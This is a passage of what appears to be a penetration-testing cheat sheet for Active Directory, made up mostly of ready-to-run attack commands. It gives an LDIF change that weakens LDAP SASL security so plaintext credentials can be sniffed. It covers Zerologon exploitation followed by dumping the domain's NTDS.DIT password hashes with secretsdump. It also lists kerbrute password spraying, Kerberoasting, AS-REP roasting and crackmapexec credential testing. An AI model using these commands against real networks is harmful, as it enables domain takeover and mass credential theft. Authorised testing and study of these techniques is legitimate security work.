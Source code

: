 ```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

Use the file to patch the LDAP server:

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif`
- `systemctl restart slapd` or `service slapd restart`

Now listen using tcpdump:

`sudo tcpdump -SX -i eth0 tcp port 389`

It might take a few tries before you receive anything if you running over a vpn

## Zero Logon

*Do not run this is a production environment as this may break the domain controller*

git clone the github repo for `CVE-2020-1472` by dirkjanm and then download the `zero-logon tester` script for the same CVE by SecuraBV

run the tester script with the following syntax:

- `python3 [zerologontester.py](http://zerologontester.py) <DC NAME> <IP>`

if the script confirms the vulnerability, we can use secretsdump to dump the NTDS.DIT file:

- `impacket-secretsdump <domain name>/<DC NAME>\$@<DC IP> -just-dc`
- the `$` presents an empty value/string

# If you have a Valid User(s) and or Password(s):

- `python3 [bloodhound.py](http://bloodhound.py) -ns <DC IP> -d <domain> -dc <DC hostname> -u <username> -p <password> -c All`

- `rpcclient -U '<username>' <IP>` then run `enumdomusers` with this you can try `GetUserSPNs` or `GetNPUsers`

- *NO PASS REQ* `./kerbrute userenum -dc <DC IP> -d <domain> users.txt`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `./kerbrute passwordspray --dc <DC IP> -d <domain> users.txt <PASSWORD TO SPRAY>`
    - if this command does not run (fails) try sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
        - `ntpdate <DC IP>`

- `impacket-GetUserSPNs <domain name>/<username>:<password> -outputfile krbroast`

- *NO PASS REQ* `impacket-GetNPUsers -dc-ip <DC IP> -no-pass -usersfile users.txt <domain name>/` OR `impacket-GetNPUsers -dc-ip <DC IP> -no-pass <domain name>/<username>`

- `crackmapexec smb <DC IP or CIDR range> smb/winrm - u <username file> -p <password file> --no-bruteforce --continue-on-success`
